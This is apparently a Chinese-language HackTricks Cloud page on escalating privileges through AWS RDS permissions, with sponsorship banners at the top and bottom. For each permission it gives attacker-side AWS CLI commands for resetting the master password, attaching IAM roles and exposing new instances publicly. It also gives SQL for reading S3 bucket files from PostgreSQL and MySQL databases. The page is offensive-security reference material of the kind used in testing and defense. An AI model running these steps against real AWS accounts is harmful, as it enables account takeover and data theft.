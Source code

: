 # AWS - RDS特权升级

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF版本的HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

## RDS - 关系型数据库服务

有关RDS的更多信息，请查看：

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

通过该权限，攻击者可以**修改主用户的密码**和数据库中的登录信息：
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
您需要能够**连接到数据库**（它们通常只能从内部网络访问）。
{% endhint %}

**潜在影响：**在数据库中找到敏感信息。

### rds-db:connect

根据[**文档**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)，具有此权限的用户可以连接到DB实例。

### 滥用RDS角色IAM权限

#### Postgresql（Aurora）

{% hint style="success" %}
如果运行**`SELECT datname FROM pg_database;`**，您发现一个名为**`rdsadmin`**的数据库，那么您知道您在**AWS postgresql数据库**内部。
{% endhint %}

首先，您可以检查此数据库是否已用于访问任何其他AWS服务。您可以通过查看已安装的扩展来进行检查：
```sql
SELECT * FROM pg_extension;
```
如果你发现类似于**`aws_s3`**的东西，你可以假设这个数据库对S3有**某种访问权限**（还有其他扩展名，比如**`aws_ml`**和**`aws_lambda`**）。

此外，如果你有权限运行**`aws rds describe-db-clusters`**，你可以在**`AssociatedRoles`**字段中查看集群是否附加了任何IAM角色。如果有的话，你可以假设该数据库已经**准备好访问其他AWS服务**。根据角色的**名称**（或者如果你可以获取角色的**权限**），你可以**猜测**数据库具有的额外访问权限。

现在，要**读取存储桶中的文件**，你需要知道完整的路径。你可以使用以下命令来读取它：
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
如果您拥有**原始的AWS凭证**，您也可以使用它们访问S3数据，方法如下：
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **不需要更改任何参数组变量**就能够访问S3。
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
在mysql中，如果运行查询 **`SELECT User, Host FROM mysql.user;`** 并且存在一个名为 **`rdsadmin`** 的用户，那么可以假设你在 **AWS RDS mysql db** 中。
{% endhint %}

在mysql中运行 **`show variables;`**，如果变量如 **`aws_default_s3_role`**、**`aurora_load_from_s3_role`**、**`aurora_select_into_s3_role`** 等具有值，那么可以假设数据库已准备好访问S3数据。

此外，如果你有权限运行 **`aws rds describe-db-clusters`**，你可以检查集群是否有任何**关联角色**，通常意味着可以访问AWS服务。

现在，要**读取存储桶中的文件**，你需要知道完整的路径。你可以使用以下命令读取：
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

具有`rds:AddRoleToDBCluster`和`iam:PassRole`权限的攻击者可以将指定的角色添加到现有的RDS实例中。这可能允许攻击者访问敏感数据或修改实例中的数据。
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**潜在影响**：访问RDS实例中的敏感数据或未经授权的数据修改。请注意，某些数据库需要额外的配置，例如Mysql，需要在参数组中指定角色ARN。

### `rds:CreateDBInstance`

仅凭此权限，攻击者可以在已存在并附加了IAM角色的集群中创建一个**新实例**。他将无法更改主用户密码，但可能能够将新的数据库实例暴露给互联网：
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
待办事项：测试
{% endhint %}

拥有`rds:CreateDBInstance`和`iam:PassRole`权限的攻击者可以**创建一个新的RDS实例，并附加指定的角色**。攻击者随后可能可以**访问敏感数据**或修改实例中的数据。

{% hint style="warning" %}
附加角色/实例配置的一些要求（来自[**这里**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)）：

* 该配置文件必须存在于您的账户中。
* 该配置文件必须具有Amazon EC2有权限承担的IAM角色。
* 实例配置文件名称和关联的IAM角色名称必须以前缀`AWSRDSCustom`开头。
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**潜在影响**：访问RDS实例中的敏感数据或未经授权的数据修改。

### `rds:AddRoleToDBInstance`，`iam:PassRole`

拥有`rds:AddRoleToDBInstance`和`iam:PassRole`权限的攻击者可以**将指定角色添加到现有的RDS实例**。这可能允许攻击者**访问敏感数据**或修改实例中的数据。

{% hint style="warning" %}
此操作仅适用于不在集群中的DB实例
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**潜在影响**：访问RDS实例中的敏感数据或未经授权的数据修改。

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF格式的HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>
